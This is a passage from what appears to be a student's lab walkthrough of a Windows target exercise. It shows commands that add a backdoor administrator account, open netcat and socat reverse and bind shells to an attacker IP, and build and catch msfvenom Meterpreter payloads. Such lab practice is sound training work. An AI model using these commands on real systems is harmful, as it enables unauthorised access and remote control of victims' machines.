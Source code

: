     8. The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.

```
PS C:\xampp\htdocs\uploads> net user gdc abc /add
The command completed successfully.
PS C:\xampp\htdocs\uploads> net localgroup administrators gdc /add
The command completed successfully.
```

Remmina is then used to RDP into the machine

    9. Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.

`PS C:\Users\Administrator> nc 10.9.5.6 5555 -e "cmd.exe"` on the victim machine in order to connect back to the listener on my machine.

For a bind shell running `nc -lnvp 5557 -e "cmd.exe"` on the victim machine and connecting with `nc 10.10.155.109 5557` returned a shell.

For a socat reverse shell, after setting up our listener with `socat TCP-L:6666 -` running `socat TCP:10.9.5.6:6666 EXEC:cmd.exe,pipes` on the victim machine returned a shell.

For a socat bind shell set up the listener on the victim machine with `socat TCP-L:7777 EXEC:cmd.exe,pipes` and connect to it with `socat 10.10.155.109:7777 -` on the attacking machine.

    10. Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.

* Create payload with `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o malware_for_win.exe LHOST=10.9.5.6 LPORT=8888`
* Open `msfconsole`
* `use multi/handler`
* `set payload windows/x64/meterpreter/reverse_tcp`
* `set LHOST 10.9.5.6`
* set LPORT 8888
* Upload the exe with the website (for some reason nc refused to let me upload)
* Connect to the victim machine and run the executable with `./malware_for_win.exe`
* Meterpreter shell is returned and can be accessed with `sessions 1`a

```
11. Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?
```

staged payload has already been created for Windows - creating a staged payload with `msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe -o nonstagedmalware.exe LHOST=10.9.5.6 LPORT=8889`. Uploading the `.exe` file to the webserver and executing returns a shell in `msfconsole`. None of the shells can be caught in netcat as the payload is a meterpreter shell which can only be used with metasploit.